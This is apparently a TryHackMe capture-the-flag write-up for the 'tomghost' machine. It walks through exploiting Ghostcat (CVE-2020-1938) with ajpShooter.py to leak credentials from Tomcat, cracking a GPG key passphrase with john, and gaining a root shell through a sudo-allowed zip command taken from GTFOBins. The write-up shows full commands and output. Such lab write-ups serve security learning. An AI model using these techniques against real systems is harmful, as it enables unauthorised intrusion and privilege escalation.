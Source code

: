 # what I learn
- ghostcat
- gpg cracking
- gtfobin zip

# enumerating
- 22/tcp   open  ssh
- 53/tcp   open  domain
- 8009/tcp open  ajp13
- 8080/tcp open  http-proxy
  - tomcat 9.0.30

# foothold
aftersome diging, tomcat version 9.0.30 is vulnerable to Ghostcat attack or CVE-2020-1938. 
```
This vulnerability report identified a mechanism that allowed: - returning arbitrary files from anywhere in the web application - processing any file in the web application as a JSP Further, if the web application allowed file upload and stored those files within the web application (or the attacker was able to control the content of the web application by some other means) then this, along with the ability to process a file as a JSP, made remote code execution possible
```
I found a exploit scrip call [ajpShooter.py](https://github.com/00theway/Ghostcat-CNVD-2020-10487).
```console
kali@kali:~/THM/tomghost$ python3 ajpShooter.py <tomcat ip:port> <ajp port> /WEB-INF/web.xml read 
```
you should recive a credential here
```html
<description>
     Welcome to GhostCat
        skyfuck:Password
</description>
```
in `skyfuck` home directory we foud 2 files.
```console
skyfuck@ubuntu:~$ file *
credential.pgp: data
tryhackme.asc:  ASCII text, with CRLF line terminators
```
1. credential.pgp : containt encrypted data/credential
2. tryhackme.asc: private block key

but where is our user flag?
```console
skyfuck@ubuntu:~$ find / -name user.txt 2> /dev/null
/home/merlin/user.txt
```
damn we dont have permission to open it but... we can use what we found to gain access as merlin


we can use john to crack `tryhackme.asc` and get the password then use the password to decrypt `credential.pgp`. let copy the prive block key to our kali and crack it using `john`.
```console
kali@kali:~/THM/tomghost$ scp skyfuck@10.10.187.16:/home/skyfuck/tryhackme.asc . # copy using scp
skyfuck@10.10.187.16's password: 
```
`tryhackme.asc` is a private gpg key which john cannot handle it direckly, we need to convert the private key to a hash using `gpg2john`. thereafter we can use john to crack the hash. So let do it
```console
kali@kali:~/THM/tomghost$ find / -name gpg2john 2> /dev/null
/usr/sbin/gpg2john
root@kali:~# gpg2john /home/kali/THM/tomghost/tryhackme.asc /home/kali/THM/tomghost/key.txt # convert gpg key to hash for john
root@kali:~# john /home/kali/THM/tomghost/key.txt -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password        (tryhackme)
1g 0:00:00:00 DONE (2020-07-23 07:21) 10.00g/s 10720p/s 10720c/s 10720C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
now we know the password to the key, we can then import the key into our key ring. then use it to decrypt `credential.pgp`.
```console
kali@kali:~/THM/tomghost$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
kali@kali:~/THM/tomghost$ scp skyfuck@10.10.187.16:/home/skyfuck/credential.pgp . # copy it
skyfuck@10.10.187.16's password: 
credential.pgp                                                    100%  394     7.9KB/s   00:00   
kali@kali:~/THM/tomghost$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:password
```
# root
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```
no word here, just check https://gtfobins.github.io/gtfobins/zip/
# ref
- [CVE-2020-1938](https://cve.circl.lu/cve/CVE-2020-1938)
- [gifobins/zip](https://gtfobins.github.io/gtfobins/zip/)
- [ajpShooter.py](https://github.com/00theway/Ghostcat-CNVD-2020-10487)


